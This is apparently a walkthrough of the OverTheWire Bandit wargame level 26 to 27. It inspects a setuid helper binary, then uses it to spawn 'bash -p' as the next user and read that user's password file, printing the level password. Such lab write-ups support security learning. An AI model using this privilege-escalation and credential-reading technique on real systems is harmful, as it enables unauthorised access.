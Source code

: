 # Bandit Level 26 -> Level 27:

In this level we find a binary in the home directory called "bandit27-do", which has suid permissions:

```sh
bandit26@bandit:~$ file bandit27-do
bandit27-do: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=037b97b430734c79085a8720c90070e346ca378e, for GNU/Linux 3.2.0, not stripped
bandit26@bandit:~$ ./bandit27-do
Run a command as another user.
  Example: ./bandit27-do id
```

As we can see, we can run commands as user bandit27 with this program. As this is a compiled binary we can not see the original source code, so we use the strings command to get information about what commands are used in the binary:

```sh
bandit26@bandit:~$ strings bandit27-do
tdL
/lib/ld-linux.so.2
0sLy
_IO_stdin_used
exit
__libc_start_main
execv
printf
libc.so.6
GLIBC_2.0
GLIBC_2.34
__gmon_start__
Run a command as another user.
  Example: %s id
/usr/bin/env
```

`/usr/bin/env` is executed with the suid permissions as it seems. This means, we can run the binary and get a shell as the bandit27 user:

```
bandit26@bandit:~$ ./bandit27-do /bin/bash -p
bash-5.1$ whoami
bandit27
bash-5.1$ cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
```

We need to supply the `-p` flag in order to start bash under the euid.
